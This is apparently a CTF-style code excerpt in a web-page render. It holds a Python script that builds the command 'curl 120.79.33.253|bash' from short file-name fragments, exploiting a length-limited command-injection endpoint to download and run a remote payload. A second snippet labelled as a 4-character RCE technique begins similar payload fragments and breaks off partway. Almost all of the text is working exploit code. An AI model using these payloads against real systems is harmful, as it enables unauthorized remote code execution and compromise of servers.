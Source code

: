     ```

    ```python

    #encoding:utf-8
    import requests
    baseurl = "http://120.79.33.253:9003/?cmd="
    reset = "http://120.79.33.253:9003/?reset"
    s = requests.session()
    s.get(reset)
    # 将ls -t 写入文件_
    list=[
        ">ls\\",
        "ls>_",
        ">\ \\",
        ">-t\\",
        ">\>y",
        "ls>>_"
    ]
    # curl 120.79.33.253|bash
    list2=[
        ">bash",
        ">\|\\",
        ">53\\",
        ">2\\",
        ">3.\\",
        ">3\\",
        ">9.\\",
        ">7\\",
        ">0.\\",
        ">12\\",
        ">\ \\",
        ">rl\\",
        ">cu\\"
    ]
    for i in list:
        url = baseurl+str(i)
        s.get(url)
    for j in list2:
        url = baseurl+str(j)
        s.get(url)
    s.get(baseurl+"sh _")
    s.get(baseurl+"sh y")
    #s.get(reset)


    ```

* 4字符RCE

    ```php
    >dir
    >f\>
    >ht-
    >sl
    *>v
    >rev
    *v>a
    >hp
    >p\
    >1.\
    >\>\
    >-d\